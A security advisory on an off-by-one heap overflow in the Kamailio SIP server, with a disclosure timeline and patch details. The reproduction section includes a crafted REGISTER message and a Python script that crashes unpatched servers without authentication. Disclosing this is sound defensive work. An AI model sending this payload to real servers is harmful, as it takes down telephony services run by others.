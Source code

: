 # Off-by-one heap overflow in Kamailio

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Fixed versions: Kamailio v5.1.2, v5.0.6 and v4.4.7
- References: no CVE assigned yet
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-05-kamailio-heap-overflow>
- Tested vulnerable versions: 5.1.1, 5.1.0, 5.0.0
- Timeline:
    - Report date: 2018-02-10
    - Kamailio confirmed issue: 2018-02-10
    - Kamailio patch: 2018-02-10
    - Kamailio release with patch: 2018-03-01
    - Enable Security advisory: 2018-03-19

## Description

A specially crafted REGISTER message with a malformed `branch` or `From tag` triggers an off-by-one heap overflow.

## Impact

Abuse of this vulnerability leads to denial of service in Kamailio. Further research may show that exploitation leads to remote code execution.

## How to reproduce the issue

The following SIP message was used to reproduce the issue with a `From` header containing the `tag` that triggers the vulnerability:


```
REGISTER sip:localhost:5060 SIP/2.0
Via: SIP/2.0/TCP 127.0.0.1:53497;branch=z9hG4bK0aa9ae17-25cb-4c3a-abc9-979ce5bee394
To: <sip:1@localhost:5060>
From: Test <sip:2@localhost:5060>;tag=bk1RdYaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaRg
Call-ID: 8b113457-c6a6-456a-be68-606686d93c38
Contact: sip:1@127.0.0.1:53497
Max-Forwards: 70
CSeq: 10086 REGISTER
User-Agent: go SIP fuzzer/1
Content-Length: 0

```

We used this python script to reproduce the crash:

```
#!/usr/bin/env python
import socket
import sys

PROTO = "udp"
SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060

for _ in range(2):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.connect((sys.argv[1], int(sys.argv[2])))

    msg = "REGISTER sip:localhost:5060 SIP/2.0\r\n" \
        "Via: SIP/2.0/TCP 127.0.0.1:53497;branch=z9hG4bK0aa9ae17-25cb-4c3a-abc9-979ce5bee394\r\n" \
        "To: <sip:1@localhost:5060>\r\n" \
        "From: Test <sip:2@localhost:5060>;tag=bk1RdYaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaRg\r\n" \
        "Call-ID: 8b113457-c6a6-456a-be68-606686d93c38\r\n" \
        "Contact: sip:1@127.0.0.1:53497\r\n" \
        "Max-Forwards: 70\r\n" \
        "CSeq: 10086 REGISTER\r\n" \
        "User-Agent: go SIP fuzzer/1\r\n" \
        "Content-Length: 0\r\n" \
        "\r\n"

    sock.sendall(msg)
```


Run using:

```
python crash.py <ip> <port>
```

The expected result is a crash in Kamailio.

Notes: 

- authentication is not required
- SIP extension does not need to exist
- Message can be sent over TCP or UDP

### GDB backtrace result

Both crashes produce a similar backtrace in GDB:

```
#0  0x00007f08c3f16428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007f08c3f1802a in __GI_abort () at abort.c:89
#2  0x0000000000669a6e in qm_debug_frag (qm=0x7f08ba615000, f=0x7f08ba8c70a8, file=0x7f08c0bba514 "tmx: tmx_pretran.c", line=250) at core/mem/q_malloc.c:147
#3  0x000000000066b49e in qm_malloc (qmp=0x7f08ba615000, size=136, file=0x7f08c0bba514 "tmx: tmx_pretran.c", func=0x7f08c0bbb320 <__func__.7497> "tmx_check_pretran", line=250, mname=0x7f08c0bba510 "tmx") at core/mem/q_malloc.c:380
#4  0x00000000006758e8 in qm_shm_malloc (qmp=0x7f08ba615000, size=136, file=0x7f08c0bba514 "tmx: tmx_pretran.c", func=0x7f08c0bbb320 <__func__.7497> "tmx_check_pretran", line=250, mname=0x7f08c0bba510 "tmx") at core/mem/q_malloc.c:1206
#5  0x00007f08c0baf879 in tmx_check_pretran (msg=0x7f08c37a3250) at tmx_pretran.c:250
#6  0x00007f08c0bac901 in t_precheck_trans (msg=0x7f08c37a3250) at tmx_mod.c:858
#7  0x00007f08c0bac939 in w_t_precheck_trans (msg=0x7f08c37a3250, p1=0x0, p2=0x0) at tmx_mod.c:869
#8  0x000000000047b0e4 in do_action (h=0x7fff808ef7e0, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1067
#9  0x0000000000487df1 in run_actions (h=0x7fff808ef7e0, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1565
#10 0x00000000004884a7 in run_actions_safe (h=0x7fff808f0860, a=0x7f08c374e6c0, msg=0x7f08c37a3250) at core/action.c:1633
#11 0x0000000000446725 in rval_get_int (h=0x7fff808f0860, msg=0x7f08c37a3250, i=0x7fff808efb44, rv=0x7f08c374e818, cache=0x0) at core/rvalue.c:912
#12 0x000000000044ae11 in rval_expr_eval_int (h=0x7fff808f0860, msg=0x7f08c37a3250, res=0x7fff808efb44, rve=0x7f08c374e810) at core/rvalue.c:1910
#13 0x000000000047aba7 in do_action (h=0x7fff808f0860, a=0x7f08c374f3b0, msg=0x7f08c37a3250) at core/action.c:1043
#14 0x0000000000487df1 in run_actions (h=0x7fff808f0860, a=0x7f08c374f3b0, msg=0x7f08c37a3250) at core/action.c:1565
#15 0x000000000047b050 in do_action (h=0x7fff808f0860, a=0x7f08c374f650, msg=0x7f08c37a3250) at core/action.c:1058
#16 0x0000000000487df1 in run_actions (h=0x7fff808f0860, a=0x7f08c374b610, msg=0x7f08c37a3250) at core/action.c:1565
#17 0x00000000004885b3 in run_top_route (a=0x7f08c374b610, msg=0x7f08c37a3250, c=0x0) at core/action.c:1654
#18 0x000000000059c7dc in receive_msg (
    buf=0xa48120 <buf> "REGISTER sip:127.0.0.1:5060 SIP/2.0\r\nVia: SIP/2.0/TCP 127.0.0.1:51315;branch=z340282366920938463463374607431768211455hG4bKecc-65715664045141690323692c170141183460469231731687303715884105859-4b6d-48dc-"..., len=608,
    rcv_info=0x7fff808f0c20) at core/receive.c:277
#19 0x00000000004a7b7c in udp_rcv_loop () at core/udp_server.c:554
#20 0x00000000004232d0 in main_loop () at main.c:1626
#21 0x000000000042a97a in main (argc=7, argv=0x7fff808f12d8) at main.c:2646
(gdb)
```

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

## Solutions and recommendations

Apply the patch at <https://github.com/kamailio/kamailio/commit/e1d8008a09d9390ebaf698abe8909e10dfec4097> or make use of a release that includes that patch (e.g. v5.1.2, v5.0.6 or v4.4.7).

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within hours of our report.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
